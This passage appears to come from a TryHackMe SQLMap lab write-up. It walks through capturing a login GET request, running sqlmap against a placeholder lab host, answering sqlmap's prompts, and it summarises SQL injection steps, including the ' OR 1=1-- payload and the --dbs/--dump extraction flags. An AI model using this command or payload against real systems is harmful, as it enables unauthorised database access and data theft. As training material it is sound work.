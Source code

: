 
## 🧪 Task 4 - Practical Hands-On


### 🖼️ Intercepting the Vulnerable Request

#### 🔐 Step 1: Login Page
![SQLMap Login Page](https://github.com/user-attachments/assets/29361d57-5de3-4ad6-8692-6b8fed609f1c)

#### 📥 Step 2: Captured GET Request in DevTools
![SQLMap DevTools Capture](https://github.com/user-attachments/assets/80261451-3e7b-427e-a394-3a4c668461b4)


### 🧩 Vulnerable Page:
```
http://MACHINE_IP/ai/login
```

Use developer tools to inspect GET request:
```
http://MACHINE_IP/ai/includes/user_login?email=test&password=test
```

### 🔍 Test with SQLMap:
```bash
sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' --level=5
```

### ⚠️ When Prompted, Answer:
- Skip non-MySQL tests? → y
- Extend risk tests? → y
- Try integer for union-char? → y
- Keep testing other params? → n

---

## ✅ Summary

### 📌 SQL Injection Lifecycle:
| Step | Action |
|------|--------|
| 1. Identify | Find GET/POST parameters |
| 2. Test     | Try `' OR 1=1--` manually |
| 3. Automate | Use SQLMap for detection |
| 4. Extract  | Use `--dbs`, `--tables`, `--dump` |
| 5. Harden   | Use prepared statements and validation |

---

## 📚 References

- [TryHackMe SQLMap Room](https://tryhackme.com/room/sqlmap)
- [SQLMap Tool Official Site](http://sqlmap.org/)
- [OWASP SQLi Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PayloadsAllTheThings - SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings)
